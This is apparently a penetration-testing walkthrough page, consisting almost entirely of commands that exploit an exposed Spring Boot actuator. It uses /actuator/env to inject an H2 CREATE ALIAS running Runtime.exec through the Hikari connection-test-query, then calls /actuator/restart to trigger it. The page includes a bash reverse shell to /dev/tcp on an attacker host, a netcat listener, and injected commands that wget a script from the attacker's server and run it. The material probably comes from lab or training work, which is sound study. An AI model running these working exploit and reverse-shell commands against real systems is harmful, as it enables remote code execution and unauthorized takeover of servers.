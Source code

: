 **reverse.sh**

```
bash -c "bash -i >& /dev/tcp/$KALI/1337 0>&1"
```

**Kali #1**

```
python3 -m http.server 81
```

**Kali #2**

```
nc -lvnp 1337
```

Download payload

**Kali #3**

```
curl -X 'POST' -H 'Content-Type: application/json' -H 'x-9ad42dea0356cb04: 172.16.0.21' --data-binary $'{\"name\":\"spring.datasource.hikari.connection-test-query\",\"value\":\"CREATE ALIAS EXEC AS CONCAT(\'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new\',\' java.util.Scanner(Runtime.getRun\',\'time().exec(cmd).getInputStream()); if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }\');CALL EXEC(\'wget http://$KALI:81/reverse.sh -O /tmp/reverse.sh\');\"}' "https://$VICTIM/actuator/env" -k

curl -X 'POST' -H 'Content-Type: application/json' -H 'x-9ad42dea0356cb04: 172.16.0.21' "https://$VICTIM/actuator/restart" -k
```

Run payload

**Kali #3**

```
curl -X 'POST' -H 'Content-Type: application/json' -H 'x-9ad42dea0356cb04: 172.16.0.21' --data-binary $'{\"name\":\"spring.datasource.hikari.connection-test-query\",\"value\":\"CREATE ALIAS EXEC AS CONCAT(\'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new\',\' java.util.Scanner(Runtime.getRun\',\'time().exec(cmd).getInputStream()); if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }\');CALL EXEC(\'bash /tmp/reverse.sh\');\"}' "https://$VICTIM/actuator/env" -k

curl -X 'POST' -H 'Content-Type: application/json' -H 'x-9ad42dea0356cb04: 172.16.0.21' "https://$VICTIM/actuator/restart" -k
```



<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
